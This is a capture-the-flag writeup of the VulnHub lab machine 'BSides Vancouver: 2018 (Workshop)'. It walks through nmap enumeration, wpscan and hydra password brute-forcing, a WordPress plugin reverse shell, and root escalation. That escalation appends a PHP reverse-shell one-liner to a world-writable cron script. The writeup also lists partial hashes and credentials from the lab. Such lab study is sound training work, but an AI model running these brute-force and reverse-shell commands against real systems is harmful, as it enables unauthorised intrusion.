

# [[VulnHub] BSides Vancouver: 2018 (Workshop)](https://www.vulnhub.com/entry/bsides-vancouver-2018-workshop,231/)

**Date**: 09/Sep/2019  
**Categories**: [oscp](https://github.com/7h3rAm/writeups/search?q=oscp&unscoped_q=oscp), [vulnhub](https://github.com/7h3rAm/writeups/search?q=vulnhub&unscoped_q=vulnhub), [linux](https://github.com/7h3rAm/writeups/search?q=linux&unscoped_q=linux)  
**Tags**: [enumerate_proto_ftp](https://github.com/7h3rAm/writeups/search?q=enumerate_proto_ftp&unscoped_q=enumerate_proto_ftp), [enumerate_proto_ssh](https://github.com/7h3rAm/writeups/search?q=enumerate_proto_ssh&unscoped_q=enumerate_proto_ssh), [exploit_ssh_bruteforce](https://github.com/7h3rAm/writeups/search?q=exploit_ssh_bruteforce&unscoped_q=exploit_ssh_bruteforce), [enumerate_proto_http](https://github.com/7h3rAm/writeups/search?q=enumerate_proto_http&unscoped_q=enumerate_proto_http), [enumerate_app_wordpress](https://github.com/7h3rAm/writeups/search?q=enumerate_app_wordpress&unscoped_q=enumerate_app_wordpress), [exploit_wordpress_plugin_hellodolly](https://github.com/7h3rAm/writeups/search?q=exploit_wordpress_plugin_hellodolly&unscoped_q=exploit_wordpress_plugin_hellodolly), [exploit_php_reverseshell](https://github.com/7h3rAm/writeups/search?q=exploit_php_reverseshell&unscoped_q=exploit_php_reverseshell), [privesc_cron](https://github.com/7h3rAm/writeups/search?q=privesc_cron&unscoped_q=privesc_cron), [privesc_sudoers](https://github.com/7h3rAm/writeups/search?q=privesc_sudoers&unscoped_q=privesc_sudoers)  

## Overview
This is a writeup for VulnHub VM [BSides Vancouver: 2018 (Workshop)](https://www.vulnhub.com/entry/bsides-vancouver-2018-workshop,231/). Here's an overview of the `enumeration` → `exploitation` → `privilege escalation` process:


### Killchain



### TTPs
1\. `21/tcp/ftp/vsftpd 2.3.5`: [enumerate_proto_ftp](https://github.com/7h3rAm/writeups#enumerate_proto_ftp)  
2\. `22/tcp/ssh/OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)`: [enumerate_proto_ssh](https://github.com/7h3rAm/writeups#enumerate_proto_ssh), [exploit_ssh_bruteforce](https://github.com/7h3rAm/writeups#exploit_ssh_bruteforce)  
3\. `80/tcp/http/Apache httpd 2.2.22 ((Ubuntu))`: [enumerate_proto_http](https://github.com/7h3rAm/writeups#enumerate_proto_http), [enumerate_app_wordpress](https://github.com/7h3rAm/writeups#enumerate_app_wordpress), [exploit_wordpress_plugin_hellodolly](https://github.com/7h3rAm/writeups#exploit_wordpress_plugin_hellodolly), [exploit_php_reverseshell](https://github.com/7h3rAm/writeups#exploit_php_reverseshell), [privesc_cron](https://github.com/7h3rAm/writeups#privesc_cron), [privesc_sudoers](https://github.com/7h3rAm/writeups#privesc_sudoers)  


\newpage
## Phase #1: Enumeration
1\. Here's the Nmap scan result:  
``` {.python .numberLines}
# Nmap 7.70 scan initiated Mon Sep  9 18:30:02 2019 as: nmap -vv --reason -Pn -sV -sC --version-all -oN /root/toolbox/vulnhub/bsidesvancouver2018workshop/results/192.168.92.169/scans/_quick_tcp_nmap.txt -oX /root/toolbox/vulnhub/bsidesvancouver2018workshop/results/192.168.92.169/scans/xml/_quick_tcp_nmap.xml 192.168.92.169
Nmap scan report for 192.168.92.169
Host is up, received arp-response (0.00040s latency).
Scanned at 2019-09-09 18:30:03 PDT for 8s
Not shown: 997 closed ports
Reason: 997 resets
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 64 vsftpd 2.3.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    2 65534    65534        4096 Mar 03  2018 public
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 192.168.92.163
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 2.3.5 - secure, fast, stable
|_End of status
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 85:9f:8b:58:44:97:33:98:ee:98:b0:c1:85:60:3c:41 (DSA)
| ssh-dss AAAAB3NzaC1kc3MAAACBAMkzaYX4CU4jgFt2LpgYnD4dUrKdvXHU26+oyQDS6DGYj4NK4+BlG6y1Af6NNqGv+Kph7Wp4ZZc3iDnsCXZe62idQOhusQf00LsnusvbuOXmthEicgnDSi4HUMtvs5I9Knt0+YanEq/w6mBVcbv4FoGu/l5xJny0wbiOC4jEtQGdAAAAFQCj+Lv2iCRNBOt/XGRL+YY3bFwTDQAAAIEApOoTiAV/aanDDjLFmAT6UwicLJSXY9ZtJyNUFSTEbZsCu4SSJMh+X66t4eYGhl+Ocs/OrNHmy4pQM5X4EBXmwtiSBDIrcOtiPHsV/QQhTpH60XLRQ+lPn0eoVPN+QS4JXwlb/J8KxSNLhJ6JGwrL1/ubFaywPTULmrSuobSuw+8AAACBAMNS/6H3+124bwcKmMAwwQepW19Awj89dxquE5HqPhrwNs4JYnES7ACYWKJ+/PYv7oxeK5vYrLYBpcQH5ohlJ9Jp0e7Qrinllvj1h3y4VFabKSIB5Vtba06n9+HgJwRROInfIy9D31W8JEYFHhfQbB1sXi9BVYJe646rTwktRCAM
|   2048 cf:1a:04:e1:7b:a3:cd:2b:d1:af:7d:b3:30:e0:a0:9d (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCzW3pS4f3ySJqldtlgXJW75MikaSN1qeWtmXgqCi9fVPcUEh+MNxaSdltnr9aUyl7C7b4LoJKDpHuuW8qi+aRukCoaZPC/k4SCgtBjkpbJqq/Ss9Ud8ySoYw3hKHnjnfzg/FDC8a1J4O4akL4a9yaX0BM2xmsi3fm9Epc2HB4MgHvMK9MzgKPz/JaaC47sayw60VlWcgCJo+HyfXmL6iFsUtDodPz/2M2yFbtkX/zleEUb1JXVE2JPCH7VjUkDVMkhch14yCezJfVDvoEq6VeKFwheRb2mcqEuywHRvt79Ovt9JgN6E5mGLMIJvtcWmur7PouFxmuijKwuq8tSPhUX
|   256 97:e5:28:7a:31:4d:0a:89:b2:b0:25:81:d5:36:63:4c (ECDSA)
|_ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNIDEfC9c65N5M+6l4b+MJso0upnINHHah2BPkniqSGDi4ITuSkHRkaruC/bVcPkxNWoWoTspMSWNVOtZYumNnI=
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.2.22 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry
|_/backup_wordpress
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
MAC Address: 00:0C:29:D5:5D:EA (VMware)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Sep  9 18:30:11 2019 -- 1 IP address (1 host up) scanned in 8.39 seconds

```

2\. The FTP service allows `anonymous` login. We use it to download a list of users:  
``` {.python .numberLines}
ftp://192.168.92.169/public/users.txt.bk

```

  

3\. We find one disallowed entry within `robots.txt`:  
``` {.python .numberLines}
http://192.168.92.169/robots.txt → /backup_wordpress

```

  


### Findings
#### Open Ports
``` {.python .numberLines}
21/tcp  |  ftp   |  vsftpd 2.3.5
22/tcp  |  ssh   |  OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
80/tcp  |  http  |  Apache httpd 2.2.22 ((Ubuntu))
```
#### Files
``` {.python .numberLines}
ftp://192.168.92.169/public/users.txt.bk
http://192.168.92.169/robots.txt
```
#### Users
``` {.python .numberLines}
ftp: abatchy, john, mai, anne, doomguy
wordpress: admin, john
```

\newpage
## Phase #2: Exploitation
1\. (method #1) We find a Wordpress installation @ `http://192.168.92.169/backup_wordpress` and run `wpscan` to enumerate users:  
``` {.python .numberLines}
wpscan --url http://192.168.92.167:69/ -e vp,vt,tt,cb,dbe,u,m --no-color → admin, john

```

  

2\. (method #1) We run a Wordpress password bruteforce attempt for user `john`:  
``` {.python .numberLines}
wpscan --url http://192.168.92.169/backup_wordpress/ --wordlist /usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt --username john

```

  

3\. (method #1) While testing, an unknown response is sent for username, password combo of `john` and `enigma`:  

  

4\. (method #1) We test these credentials manually and are successfully logged in:  

  

5\. (method #1) We edit the `footer.php` theme file to gain command execution:  

  

6\. (method #1) After successfully testing command execution, we upload a PHP reverse shell by editing the `Hello Dolly` plugin and gain interactive access:  

  

7\. (method #2) We manually test SSH login for all users mentioned within the `users.txt.bk` file and find that password authentication is enabled only for user `anne`:  

  

8\. (method #2) We bruteforce SSH credentials for user `anne`:  
``` {.python .numberLines}
hydra -l anne -P "/usr/share/wordlists/rockyou.txt" -e nsr -s 22 -o "./results/192.168.92.169/scans/tcp_22_ssh_hydra.txt" ssh://192.168.92.169 → anne/princess

```

  

9\. (method #2) We can ssh as user `anne` and gain interactive access:  

  


## Phase #2.5: Post Exploitation
``` {.python .numberLines}
www-data|anne@bsides2018> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
uid=1003(anne) gid=1003(anne) groups=1003(anne),27(sudo)
www-data|anne@bsides2018>  
www-data|anne@bsides2018> uname
Linux bsides2018 3.11.0-15-generic #25~precise1-Ubuntu SMP Thu Jan 30 17:42:40 UTC 2014 i686 i686 i386 GNU/Linux
www-data|anne@bsides2018>  
www-data|anne@bsides2018> ifconfig
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP qlen 1000
    link/ether 00:0c:29:d5:5d:ea brd ff:ff:ff:ff:ff:ff
    inet 192.168.92.169/24 brd 192.168.92.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::20c:29ff:fed5:5dea/64 scope link
       valid_lft forever preferred_lft forever
www-data|anne@bsides2018>  
www-data|anne@bsides2018> users
john
mai
anne
doomguy
```

\newpage
## Phase #3: Privilege Escalation
1\. (method #1) Continuing as user `www-data`, we explore the `/var/www/backup_wordpress/` directory and find `wp-config.php` file with MySQL credentials in it:  

  

2\. (method #1) These credentials do not work for MySQL login. Changing user to `john` with these credentials also failed.  

3\. (method #1) Exploring `/etc/crontab` we find an entry for file `/usr/local/bin/cleanup` that is run every minute. This file is owned by `root` and has `rwx` permissions for `ugo`. We exploit this to edit the file and add an entry to intiate a PHP reverse shell:  
``` {.python .numberLines}
echo -e "php -r '\$sock=fsockopen(\"192.168.92.163\",8080);exec(\"/bin/sh -i <&3 >&3 2>&3\");'" >>/usr/local/bin/cleanup

```

  

4\. (method #1) Within a minute, the updated `cleanup` file is executed as part of cronjob with `root` permissions and we catch an elevated shell using our netcat listener  

5\. (method #1) We use this shell to view the contents of `/root/flag.txt` file:  

  

6\. (method #2) Continuing as user `anne`, we find that this user is part of `sudo` group and using `sudo -l` we see that `anne` can execute all commands as `root`. We use this fact to gain elevated privileges:  
``` {.python .numberLines}
sudo su

```

  


\newpage

## Loot
### Hashes
``` {.python .numberLines}
john:$6$aoN7zaDl$e6RsRZndFekSS4bgqz0y5dgzO1dTQsMAWck6dFGogkxrrZf1ZyGbjy/oCpqJniIkasXP05iFZHs.XZVIQ........................
mai:$6$Mp.mBBi7$BCAKb75xSAy8PM6IhjdSOIlcmHvA9V4KnEDSTZAN2QdMUwCwGiwZtwGPXalF15xT097Q6zaXrY6nD/7Rsd.......................
anne:$6$ChsjoKyY$1uHlk7QUSOmdpvSP7Q4PYmE3evwQbUPFp27I4ZdRx/pZp8C8gJAQGu2vy8kwLakYA7cWuZ40aOl2u.8J9........................
doomguy:$6$DWqgg./v$NxqnujIjE8RI.y1u/xiFBPC0K/essEGOfxSF7ovfHG46K6pnetHZNON3sp19rGuoqo26wQkA4B2znRvhq........................
```
### Credentials
``` {.python .numberLines}
mysql: john/thiscannot....
ssh: anne/princ...
wordpress: john/eni...
```

## References
[+] <https://www.vulnhub.com/entry/bsides-vancouver-2018-workshop,231/>  
[+] <https://pentester.land/challenge/2018/06/27/vulnhub-Bsides-Vancouver-2018-walkthrough.html>  
